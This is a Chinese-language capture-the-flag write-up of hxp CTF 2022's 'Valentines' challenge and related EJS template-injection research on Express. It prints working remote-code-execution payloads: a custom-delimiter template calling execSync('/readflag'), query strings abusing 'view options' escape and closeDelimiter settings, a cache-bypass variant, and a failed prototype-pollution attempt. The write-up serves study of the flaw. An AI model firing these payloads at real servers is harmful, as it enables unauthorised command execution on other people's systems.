










# Valentines

```js
app.post('/template', function(req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch(err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});

app.get('/:template', function(req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});
```

可以提交一个模板，模板限制了若以`<%`开头，内容只能是`<%= name %>`

题目中ejs的版本是`3.1.8`，而之前那个漏洞`settings[view options][outputFunctionName]`要求`3.1.6`及其以下的版本

问题在这个把整个query对象都传入进行渲染，这就使得用户可以自定义一些配置了。翻了一下ejs的官方文档，发现可以自定义模板的分隔符

传模板：`<?- global.process.mainModule.require('child_process').execSync('/readflag') ?>`

渲染：`name=123&delimiter=%3f`（`%3f`是`?`）

`hxp{W1ll_u_b3_my_V4l3nt1ne?}`

------

## New EXP

后面做`JustCTF2023`又遇到了ejs，找到一位师傅的wp，又回来看这题了，tql😭

👉[hxpCTF2022wp | Z3ratu1's blog](https://z3ratu1.github.io/hxpCTF2022wp.html)

下面我们再来一场ejs渲染之旅

```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/page', (req,res) => {
    res.render('page', req.query);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

`app.render`一直跟进，直到进入`ejs/lib/ejs.js#renderFile`



这里的data就是传入`req.query`

接着将`viewOpts`浅拷贝到`opts`

进入`tryHandleCache(opts, data, cb);`，跟进`handleCache(options)`





这里new了一个`Template`（后面会用到），进入`compile`



这里对`opts`的各种属性进行了检测，通过了才能拼接到`prepended`

之前那个常见的payload，拼接到此为：

`var x;process.mainModule.require('child_process').execSync('calc');x = __append;`

实际上对3.1.6的修复漏掉了一个属性`escapeFn`，可能是修的时候看到这个没有前缀`opts.`吧



`var escapeFn = opts.escapeFunction;`，再往上看有个构造函数，挺多属性可以改的





上面`new Template`的时候就能传入`opts.escapeFunction`!

```js
?settings[view options][client]=1&settings[view options][escape]=process.mainModule.require('child_process').execSync('calc');
```

这个问题目前最新版本`3.1.9`还没修复！

有一个坑点就是cache问题，在生产模式下，或者开启了`app.enable('view cache');`，模板只会编译一次，也就是只能执行一次RCE。如何控制cache呢？

上面构造opts时，最后还会执行`utils.shallowCopyFromList`把data的键值拷贝到`opts`中

```js
if (data.settings['view cache']) {
    opts.cache = true;
}
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
// ...
utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
```



`handleCache`首先判断是否有缓存，有则先从`exports.cache`中找



找不到的话，后面`compile`也会把结果存入`exports.cache`

注意这里添加`cache=false`会被处理为字符串，而不是布尔值，因此`cache`字段放空即可

```js
?settingsview options=1&settingsview options=process.mainModule.require('child_process').execSync('calc');&cache=
```

这时候尝试每次指定不同的命令，成功执行不同的命令。

## ejs文件可控

👉[EJS, Server side template injection ejs@3.1.9 Latest · Issue #720 · mde/ejs (github.com)](https://github.com/mde/ejs/issues/720)

index.js

```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/page', (req,res) => {
    res.render('page', req.query);
})

app.listen(port, () => {
  console.log("Example app listening on port ${port}")
})
```

page.ejs

```ejs
%%1");process.mainModule.require('child_process').execSync('calc');//
```

poc

```js
http://127.0.0.1:3000/page?settings[view%20options][closeDelimiter]=1")%3bprocess.mainModule.require('child_process').execSync('calc')%3b//
```



`delimiter`为`%`，ejs中要存在可利用的`closeDelimiter`

要放在其他题目感觉挺鸡肋的。。。都能直接写`ejs`哪还要这么绕。

但这题限制了`<%`开头，内容只能是`<%= name %>`

泰裤辣！！！

## 渲染参数限制

上面漏洞产生的直接原因是完全信赖用户的输入

`res.render(template, query)`把`query`一股脑放进去渲染

但若这里改成`res.render(template, {name: query['name']})`了呢

要想利用还得改动一下express版本，req.query可以造成原型链污染

> 震惊，这里是从justCTF2023那学到的
>
> express版本: 4.17.2 （valentines这题的版本是4.18.2，打不出来）
>
> 改一下package.json的dependencies
>
> "dependencies": {
>
>   "ejs": "3.1.8",
>
>   "express": "4.17.2"
>
>  }
>
> 执行npm install即可
>
> npm ls express 查看下载的版本

```js
name[__proto__][__proto__][settings][view%20options][client]=1&name[__proto__][__proto__][settings][view%20options][escape]=process.mainModule.require('child_process').execSync('calc');&name[__proto__][__proto__][cache]=
```

污染不了。。。（justCTF后面是通过idx赋值去污染的）

打不动了，还是太菜了呜呜呜


